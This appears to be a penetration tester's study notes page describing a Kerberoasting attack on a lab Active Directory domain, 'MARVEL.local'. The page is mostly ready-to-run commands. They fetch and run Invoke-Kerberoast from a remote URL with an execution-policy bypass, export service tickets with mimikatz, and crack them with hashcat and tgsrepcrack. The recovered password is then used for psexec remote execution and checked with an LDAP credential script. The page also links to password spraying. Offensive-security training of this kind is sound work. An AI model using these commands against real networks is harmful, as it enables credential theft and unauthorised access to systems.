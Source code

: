 #### Fast method - Hashcat
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```
[[4._File Transfers#Certutil]]
[[2._Powershell  Bypass]]
If already transferred, just run:
```
Import-Module .\Invoke-Kerberoast.ps1
```
```
Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
OR use **either** cmd or powershell to execute Invoke-Kerberoast into Hashcat format:
```batch - windows
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
![[Pasted image 20220119113224.png]]
```powershell - windows
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
![[Pasted image 20220119113544.png]]
Paste hash into notepad++, select all, press CTRL+J to join all the lines together.  CRTL+H > enable Regular express.  Replace the spaces in the document with:
Find what: \s*
Replace with:
Copy to hashes.txt
```batch - windows
hashcat.exe -m 13100 hashes.txt rockyou.txt -O
```
SQLService
MYpassword123#
```
psexec.py MARVEL.local/SQLService:MYpassword123#@$TARGET
```
![[Pasted image 20220118202531.png]]
#### GetUserSPNs - Kerberoast
```
wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1
```
```powershell - windows
.\GetUserSPNs.ps1
```
![[Pasted image 20220118203835.png]]
ServicePrincipleName: ==HYDRA-DC/SQLService.MARVEL.local:60111==
```
Add-Type -AssemblyName System.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HYDRA-DC/SQLService.MARVEL.local:60111"
```
![[Pasted image 20220118204148.png|2000]]
```Powershell
klist
```
```batch - mimikatz
kerberos::list /export
```
![[Pasted image 20220118191935.png]]
![[Pasted image 20220118192457.png]]
Files can be found in the same directory as mimikatz.exe.  Transfer it to Kali.
![[Pasted image 20220101190402.png]]
[[4._File Transfers]]
```bash - Kali
sudo apt update && sudo apt install kerberoast
```
OR
```bash - Kali
git clone https://github.com/nidem/kerberoast
```
```bash - Kali
cd kerberoast
```
```python - Kali
python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt ../1-40a50000-groot@LDAP~Xandar.MARVEL.local~MARVEL.local-MARVEL.LOCAL.kirbi
```
MYpassword123#
---
==CredsTest.ps1==
```Powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "SQLService", "MYpassword123#")
```
---
![[Pasted image 20220118211216.png]]
#### Spray-Passwords.ps1
[[9_Password Spraying]]